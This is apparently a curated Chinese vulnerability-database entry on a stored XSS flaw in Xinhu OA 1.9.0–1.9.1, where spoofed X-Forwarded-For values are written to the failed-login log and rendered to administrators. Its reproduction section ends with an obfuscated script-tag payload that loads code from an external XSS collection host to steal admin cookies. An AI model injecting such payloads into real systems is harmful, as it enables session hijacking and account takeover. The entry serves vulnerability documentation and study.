










# 信呼OA 登录失败日志X-Forwarded-For存储型XSS

## 条目说明

- 对象与具体问题：信呼OA；登录失败日志X-Forwarded-For存储型XSS
- 版本、配置及部署条件：1.9.0-1.9.1；管理员访问日志触发
- 认证与权限前提：注入通过登录失败可能无需登录；受害者后台查看
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 漏洞简介空白；核心代码/完整请求/触发页面均主要靠截图
- 应写清攻击者与受害者权限，不能把研究者登录混同利用前提
- 外部XSS收集地址应换占位；正文有转码噪声

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

一、漏洞简介
------------

二、漏洞影响
------------

信呼oa 1.9.0-1.9.1

三、复现过程
------------

首先搭建好之后跳转到一个登录页面

输入刚开始安装时设置的管理员**usname paword**然后点击登陆，然后抓包查看传参，然后去寻找登陆模块的源代码，根据传参的追踪，我们很快就能追踪到这个文件`webmain\model\loginMode.php`

然后我在这个登陆文件`loginMode.php`的第209行到215行发现了一些东西

这里出现了一个`addlogs`函数，看名字应该是添加日志，在`logModel.php`中发现了他的定义

这里是获取了信息然后给数组赋值，然后insert函数调用 在`mysql.php`

很明显这里是插入语句的模板，这里就应该是登陆失败后，日志会记录下来前面看的到那些数组赋值的信息。

通过查看Mysql日志发现，登录失败他会记录我们的Ip，那么就简单了，我们是否可以尝试使用`X-Forwarded-For`来改变他的ip，然后我们使用

`X-Forwarded-For:127.0.0.1`X-F-F成功更换后台Ip

打个xss

后台成功弹框

打开XSS平台

打一遍发现没用，获取不到cookie，F12看看咋回事

果然是xss代码出了问题构造xss代码，极限代码\--\>多加//防止被转入之前\--\>`<sCRiPt/SrC=////xs.sb/Jwdu>`

参考链接
--------

> https://xz.aliyun.com/t/7887
